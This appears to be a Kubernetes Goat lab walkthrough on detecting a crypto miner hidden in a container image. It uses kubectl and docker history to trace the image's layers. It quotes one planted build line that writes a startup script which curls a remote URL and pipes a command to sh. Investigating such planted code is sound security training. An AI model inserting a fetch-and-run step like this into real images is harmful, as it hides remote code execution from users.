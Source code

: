 # Analysing crypto miner container

## Scenario Information

Crypto mining has become popular with modern infrastructure. Especially environments like Kubernetes are an easy target as you might not even look at what exactly the container image builds upon and what it is doing with proactive monitoring. Here in this scenario, we will analyse and identify the crypto miner.

* To get started, identify all the resources/images in the Kubernetes cluster. Including Jobs.

```bash
kubectl get jobs
```

![Scenario 10 get jobs](images/sc-10-1.png)

## Scenario Solution

> Identify all resources within a Kubernetes cluster. If possible get into details of each container image available in all the nodes within the cluster as well

* Once we have identified the job we ran in the Kubernetes cluster, got the pod information by running following command

```bash
kubectl describe job batch-check-job
```

![Scenario 10 get job info](images/sc-10-2.png)

* Then get the pod information by running the below command

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* Then get the pod information manifest and analyse

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```

![Scenario 10 get pod info](images/sc-10-3.png)

* Identified that it's running `madhuakula/k8s-goat-batch-check` docker image

* After performing analysis of this image we identified it has the mining stuff in the build time script in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

![Scenario 10 get docker history](images/sc-10-4.png)

> `echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup     && chmod +x /usr/bin/system-startup`

## Miscellaneous

TBD
